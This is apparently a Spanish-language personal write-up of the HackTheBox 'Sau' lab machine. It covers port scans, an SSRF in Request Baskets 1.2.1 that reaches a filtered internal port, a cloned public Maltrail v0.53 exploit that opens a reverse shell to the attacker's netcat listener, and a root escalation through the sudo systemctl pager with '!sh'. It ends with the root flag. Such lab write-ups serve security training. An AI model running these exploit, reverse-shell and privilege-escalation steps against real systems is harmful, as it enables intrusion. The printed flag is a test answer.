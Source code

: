 # Sau

Plataforma: HackTheBox
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 23 de enero de 2025 20:23
IP: 10.10.11.224

## Recopilación de información

<aside>
💡

</aside>

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
❯ sudo nmap -p- --open --min-rate 5000 -sS -n -Pn -vvv 10.10.11.224 -oG allports

PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 63
55555/tcp open  unknown syn-ack ttl 63

```

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

```bash
❯ sudo nmap -p22,55555 -sCV 10.10.11.224 -oN targeted

22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)

55555/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sun, 19 Jan 2025 15:08:43 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sun, 19 Jan 2025 15:08:06 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sun, 19 Jan 2025 15:08:07 GMT
|_    Content-Length: 0

```

- **Identificación de vulnerabilidades**
    - 22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7
    - 55555/tcp open  unknown

Despues de estancarnos con la explotacion del SSRF, vemos en las notas que en la enumeración aparecen filtrados los puerots 80 y 8338 usando el parametro -sT o -sS no aparecen, como ha sido nuestro caso.

```php
nmap -p- --min-rate=1000 -T4 10.10.11.224 -vvv

PORT      STATE    SERVICE REASON
22/tcp    open     ssh     syn-ack ttl 63
80/tcp    filtered http    no-response
8338/tcp  filtered unknown no-response
55555/tcp open     unknown syn-ack ttl 63
```

- **Enumeracion Web (55555)**
    
    ![image.png](<imagenes/image 103.png>)
    

Whateweb

```php
whatweb 10.10.11.224

http://10.10.11.224:55555 [302 Found] Country[RESERVED][ZZ], IP[10.10.11.224], RedirectLocation[/web]
http://10.10.11.224:55555/web [200 OK] Bootstrap[3.3.7], Country[RESERVED][ZZ], HTML5, IP[10.10.11.224], JQuery[3.2.1], PasswordField, Script, Title[Request Baskets]
```

En la web vemos que se esta usando : request-basket 1.2.1 y que es vulnerable a SSRF 

![image.png](<imagenes/image 104.png>)

Probamos el SSRF enviando una peticion y mediante la redireccion del proxy a nuestra maquina, ver si recibimos la solicitud

Creamos un basquet, nos ponemos en escucha, modificamos el proxy y usamos curl para hacer la peticion

![image.png](<imagenes/image 105.png>)

```php
curl http://10.10.11.224:55555/2ck6d2 (basket-id)
```

![image.png](<imagenes/image 106.png>)

Ahora lo que queremos es, ya que hemos encontrado un puerto 80 filtrado, ver si mediante el SSRF podemos enumerarlo, modificando la redireccion del Proxy al puerto 80 de la propia maquina

```php
 URL to http://127.0.0.1:80 
```

![image.png](<imagenes/image 107.png>)

Accedemos de nuevo al basquet que hemos creado, esta vez en nuetro navegador y vemos el puerto 80 de la maquina victima

![image.png](<imagenes/image 108.png>)

## Explotación

<aside>
💡

</aside>

### Explotación 1

Vemos que corre un Maltrail v 0.53 

Buscamos si es vulnerable

Encontramos un exploit :

```php
git clone https://github.com/spookier/Maltrail-v0.53-Exploit.git    

>python3 exploit.py 10.10.16.18 4444 http://10.10.11.224:55555/nib90of

❯ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.18] from (UNKNOWN) [10.10.11.224] 36296
$ whoami
puma
```

Hacemos tratamiento de TTY

Buscamos privilegios

```php
sudo -l 
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:/opt/maltrail$ 
```

## Explotación posterior

<aside>
💡

</aside>

### Escalada de privilegios

Buscamos en GTFObins :

```bash
sudo systemctl
!sh
```

Aun sin tener el password de Puma, como podemos correr todo el comando sin password hacemos:

```bash
$ sudo /usr/bin/systemctl status trail.service
  Memory: 34.3M
     CGroup: /system.slice/trail.service
             ├─ 897 /usr/bin/python3 server.py
             ├─1171 /bin/sh -c logger -p auth.info -t "maltrail[897]" "Failed p>
             ├─1172 /bin/sh -c logger -p auth.info -t "maltrail[897]" "Failed p>
             ├─1178 sh
             ├─1182 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I>
             ├─1183 /bin/sh
             ├─1191 sudo systemctl
             ├─1194 /bin/sh -c logger -p auth.info -t "maltrail[897]" "Failed p>
             ├─1195 /bin/sh -c logger -p auth.info -t "maltrail[897]" "Failed p>
             ├─1198 sh
             ├─1199 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I>
             ├─1200 /bin/sh
             ├─1203 script -c bash /dev/null
             ├─1204 bash
lines 1-23!sshh!sh
# whoami
root
# cat root.txt
59c3dd6748dd8fc2ba0ebd557ea5890b
```

# 

## Conclusión

<aside>
💡 Maquina que me ha costado y he tenido que mirar writeup por desconocer como funciona correctamente el SSRF. Escalada de privilegios sin problemas.

</aside>